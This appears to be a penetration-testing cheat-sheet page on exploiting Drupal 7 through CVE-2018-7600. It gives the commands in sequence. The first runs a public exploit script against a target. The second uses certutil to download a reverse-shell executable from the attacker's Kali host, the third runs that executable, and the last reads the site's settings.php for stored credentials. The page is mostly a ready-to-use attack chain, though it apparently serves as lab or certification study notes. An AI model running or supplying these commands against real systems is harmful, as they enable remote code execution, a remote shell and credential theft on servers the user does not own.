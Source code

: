 #### Drupal 7
https://github.com/pimps/CVE-2018-7600

There are 2 python files, try each, one may work, one may not.

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c whoami
```

[[1._Reverse Shells (WIN)#MSFVenom]]

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "certutil -urlcache -split -f http://$KALI/reverse64.exe"
```

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "reverse64.exe"
```


#### Check for settings.php for creds
```bash - kali
cat /var/www/html/sites/default/settings.php
```
